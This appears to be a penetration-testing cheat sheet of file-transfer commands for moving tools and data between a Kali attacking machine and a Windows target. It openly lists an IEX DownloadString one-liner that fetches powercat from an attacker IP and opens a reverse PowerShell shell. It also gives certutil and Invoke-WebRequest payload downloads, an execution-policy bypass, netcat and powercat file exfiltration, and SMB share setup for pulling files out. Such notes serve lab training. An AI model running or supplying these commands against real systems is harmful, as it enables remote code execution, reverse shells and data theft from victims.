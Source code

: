 
#### CMD

`certutil -urlcache -split -f "http://ip/file" file` - download remote file from attacker

`powershell -FILE "file.ps1"` - execute file from cmd using powershell.

`powershell -ExecutionPolicy Bypass -File "C:\Scripts\MyScript.ps1"` - attempt to bypass execution policy and execute script.

`nc.exe -nvlp 7777 < file to sent to kali`

#### PowerShell

methods used to download powercat.ps1 from attacker:

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```

```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://ip/powercat.ps1","C:\path\powercat.ps1")
```

`nc -lnvp 443 > notes.txt` - run on attacking machine

`powercat -c 192.168.1.3 -p 443 -i notes.txt` - run on target machine to transfer files

`iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe` - shorthand for Invoke-WebRequest, downloads file from remote server

### Kali

`smbclient //192.168.223.195/share -c 'put config.Library-ms'` - transfer file via smbclient from kali to windows share.

##### host smb server on kali

1. `impacket-smbserver share $(pwd) -smb2support -user kali -password kali` host smb server on kali machine - USE ROOT TERMINAL

2. `net use \\kali-ip\share /u:username password` - use share on windows machine - this allows the windows machine to interact with the share on the kali box

3. `copy file.txt \\kali-ip\share\file.txt` - send file to kali smb share from windows poweshell/cmd

##### host apache2 webserver

`sudo systemctl start apache2` - start apache webserver

`sudo cp /file/to/share /var/www/html/` - host the file

